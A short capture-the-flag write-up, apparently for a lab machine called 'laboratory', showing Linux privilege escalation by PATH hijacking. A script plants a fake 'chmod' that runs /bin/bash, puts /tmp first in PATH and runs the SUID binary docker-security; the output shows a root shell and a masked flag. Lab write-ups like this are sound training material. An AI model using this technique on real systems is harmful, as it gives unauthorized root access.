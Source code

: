 # Root Exploit

## Path hijacking

* **Reference:** hackingarticles.in [article](https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/)

* a simple bash script

	  ❯ cat scrp.sh
	  cd /tmp
	  echo "/bin/bash" > chmod
	  chmod +x chmod
	  echo $PATH
	  export PATH=/tmp:$PATH
	  cd /usr/local/bin
	  ./docker-security

* run that script and simply get the root shell -

	  (remote) dexter@laboratory:/home/dexter$ bash scrp.sh
	  /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/snap/bin
	  root@laboratory:/usr/local/bin# id 
	  uid=0(root) gid=0(root) groups=0(root),1000(dexter)
	  root@laboratory:/usr/local/bin# cd /root
	  root@laboratory:/root# cat root.txt
	  229dd8c7************************